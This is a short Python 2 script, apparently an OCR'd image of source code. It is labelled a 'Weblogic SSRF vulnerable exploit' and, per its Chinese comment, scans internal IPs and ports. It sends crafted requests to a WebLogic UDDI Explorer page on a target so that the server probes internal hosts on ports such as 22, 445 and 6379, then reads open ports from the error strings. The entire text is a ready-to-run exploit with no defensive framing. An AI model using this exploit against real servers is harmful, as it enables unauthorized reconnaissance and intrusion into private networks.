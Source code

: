 ```python
#!/usr/bin/env python
# coding: utf-8
# 功能：扫描内网开放ip及端口

import argparse
import thread
import time
import re
import requests



def ite_ip(ip):
    #for i in range(1, 256):
    for i in range(139, 146):
        final_ip = '{ip}.{i}'.format(ip=ip, i=i)
        thread.start_new_thread(scan, (final_ip,))
        time.sleep(3)

def scan(final_ip):
    #ports = ('21', '22', '23', '53', '80', '135', '139', '443', '445', '1080', '1433', '1521', '3306', '3389', '4899', '8080', '7001', '8000')
    ports = ( '80', '445','22','6379')
    for port in ports:
        vul_url = args.url + '/uddiexplorer/SearchPublicRegistries.jsp?operator=http://%s:%s&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search' % (final_ip, port)
        try:
            r = requests.get(vul_url, timeout=15, verify=False) 
            result0 = re.findall('weblogic.uddi.client.structures.exception.XML_SoapException', r.content)
            result1 = re.findall('route to host', r.content)
            result2 = re.findall('but could not connect', r.content)
            if len(result0) != 0 and len(result1) == 0 and len(result2) == 0:
                out = "port exist: " + final_ip + ':' + port
                print out        
        except Exception, e:
            pass

def get_ip():
    vul_url = args.url + '/uddiexplorer/SetupUDDIExplorer.jsp'
    r = requests.get(vul_url, timeout=15, verify=False)
    reg = re.compile(r"For example: http://\b(?:(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\ b")
    result1 = reg.findall(r.content)
    result = ""
    if result1:
        result = result1[0].replace("For example: http://","")
    return result

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Weblogic SSRF vulnerable exploit') 
    parser.add_argument('--url', dest='url', required=True, help='Target url')
    parser.add_argument('--ip', dest='scan_ip', help='IP to scan')
    args = parser.parse_args()
    ip = '.'.join(args.scan_ip.split('.')[:-1])
    #print ip
    #ip = get_ip()
    if ip:
        ite_ip(ip)
    else:
        print "no ip"
```
